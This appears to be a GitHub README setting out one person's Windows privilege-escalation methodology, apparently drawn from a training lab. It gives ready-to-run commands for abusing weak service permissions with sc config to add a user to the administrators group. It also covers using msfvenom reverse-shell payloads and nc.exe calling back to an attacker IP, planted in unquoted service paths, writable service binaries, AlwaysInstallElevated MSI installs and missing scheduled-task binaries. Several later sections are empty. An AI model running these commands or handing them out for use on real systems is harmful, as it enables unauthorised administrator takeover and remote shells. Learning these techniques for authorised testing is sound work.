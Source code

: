 For Windows Priviledge Escalation guide you can follow these two posts:


1-https://www.fuzzysecurity.com/tutorials/16.html


2-https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/


HERE'S HOW I APPROACH FOR ESCALATING PRIVILEDGES:

![Windows_priv_esc_password_credentials](https://user-images.githubusercontent.com/55708909/92549895-fb567a00-f277-11ea-947d-8929d12b723d.png)


1- Services (binpath):
-----------------------------------------------------------------------
         First transfer the accesschk64.exe to system 
   
         Run accesschk64.exe -accepteula
   
         Run accesschk64.exe -wvuc "Service name"       accesschk64.exe -wvuc daclsvc
   
   ![Service(BIn_Path)](https://user-images.githubusercontent.com/55708909/92556310-390ecf00-f287-11ea-8a85-1af55670e7aa.png)

          You will see that everyone has read and write permission to change SERVICE_CHANGE_CONFIG
          
          Write this: sc config daclsvc binPath= "net localgroup administrators user /add"
          
          Then write this : sc start daclsvc 
          
          You will be added to admin group 

![Service(BIn_Path_1)](https://user-images.githubusercontent.com/55708909/92556850-8c355180-f288-11ea-982b-b02fd5864ca2.png)


2- Services (Unquoted path):
---------------------------------------------------------------------------------------
          For it to work we need to identify which are the path which are not included in quotes
          
          wmic service get name,pathname,startmode | findstr /i /v "c:\windows\\" | findstr /i /v """
          
 ![Service(Unquoted_path)](https://user-images.githubusercontent.com/55708909/92557524-05817400-f28a-11ea-9d03-b9f21efc8826.png)

          First transfer nc.exe to C:\Users\user directory
          
          msfvenom -p windows/exec CMD="C:\Users\user\nc.exe 10.9.14.98 443 -e cmd.exe" -f exe-service > common.exe
          
          Transfer the common.exe to C:\Program Files\Unquoted Path Service
          
          type sc start unquotedsvc
          
 ![Service(Unquoted_path_1)](https://user-images.githubusercontent.com/55708909/92558713-c3a5fd00-f28c-11ea-9423-fe436ac65491.png)
         
          

3- Service (Registry):
-------------------------------------------------------------------------------------------
            
            For this to work check for registry permission using this commands.
            
            Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
            
![Service_registry_1](https://user-images.githubusercontent.com/55708909/92689186-34681a80-f35c-11ea-9f43-9d23a8807143.png)
 
            You will see that interactive has full control this means we can modify the registry with our own version
            
4- Services( Executable files):
---------------------------------------------------------------------------------------------
          
           Transfer the accesschk.exe to pc and check for weak executable service
           
![Service(Executable)](https://user-images.githubusercontent.com/55708909/92559368-1a600680-f28e-11ea-940d-2472ece84622.png)
 
            We notice that everyone has read and write access to filepermservice.exe
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f exe > filepermservice.exe
            
            transfer filepermservice.exe to target system
            
            copy /y filepermservice.exe "C:\Program Files\File Permissions Service"

            sc start filepermsvc 
            
![Service(Executable_1)](https://user-images.githubusercontent.com/55708909/92560004-45972580-f28f-11ea-88fd-f5c365dd41ef.png)

           
5- Registry (Always installed elevated):
---------------------------------------------------------------------------------------------
            
            reg query HKLM\Software\Policies\Microsoft\Windows\Installer
            
            reg query HKCU\Software\Policies\Microsoft\Windows\Installer
            
            If they gave output as 1 then this means we can create our payload in msi format and can escalate priv
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f msi > access.msi

            Transfer it to target machine
            
            msiexec /quiet /qn /i C:\Users\user\access.msi
 
            Netcat session with admin rights
            
![Registry(Always_install)](https://user-images.githubusercontent.com/55708909/92560985-ef2ae680-f290-11ea-8166-aeb34190e869.png)
            
6- Registry (Modified autorun): Need to have admin login to work
-------------------------------------------------------------------------------------------------
             
   ![REgistry_auto_run](https://user-images.githubusercontent.com/55708909/92561769-72007100-f292-11ea-919a-444e7874cd5b.png)
   
             As you can see everyone has read and write to program.exe this means simply replace that executable
              
             with your version of executable and wait for admin to login and have admin rights

7- Password minig (Registry):
-------------------------- -----------------------------------------------------------------

![Password_mining(REgistry)](https://user-images.githubusercontent.com/55708909/92564190-66af4480-f296-11ea-9139-eea67ec26650.png)

             
8- Password mining (Memory)
-----------------------------------------------------------------------------------------
          

9- Password mining (Configuration Files):
------------------------------------------------------------------------------------------
        
![Password_mining(Configuration)](https://user-images.githubusercontent.com/55708909/92562987-7ded3280-f294-11ea-9a0e-b9551fae7529.png)

![Password_mining(Configuration_1)](https://user-images.githubusercontent.com/55708909/92563469-3e731600-f295-11ea-98ad-8517e167fc2f.png)

            
10- Scheduled tasks (Missing binary):
------------------------------------------------------------------------------------------

        While checking for schedule task we found one of the binary missings.
        
 ![Windows_Priv_Esc_scheduled_task_missing_binary](https://user-images.githubusercontent.com/55708909/92596152-04b90400-f2c3-11ea-8f25-7d4b8ac8379b.png)
       
        Program.exe is missing
        
        msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f exe > program.exe
        
        Put it in C:\Missing Schedule Binary and restart pc 
        
        You will have admin access

![Schedule_task_missing_binary](https://user-images.githubusercontent.com/55708909/92596554-9cb6ed80-f2c3-11ea-9f13-c4a96b5ba764.png)


11- Startup applications: (Need to have admin login to work)
--------------------------------------------------------------------------------------------
        
        As you can see users has full access over the mention directory and therefore can change the binary with there
        
        own version and thus leding to priv escalations
        
![Start_up_app_1](https://user-images.githubusercontent.com/55708909/92597636-51054380-f2c5-11ea-9ddd-aa93dfbf7ab7.png)
        
        Put the exe in mention directory and wait for admin to login to esc priv
        
12- Potato attacks:
--------------------------------------------------------------------------------------------

13- DLL Hijacking:
----------------------------------------------------------------------------------------------

14-Kernel exploits:
----------------------------------------------------------------------------------------------
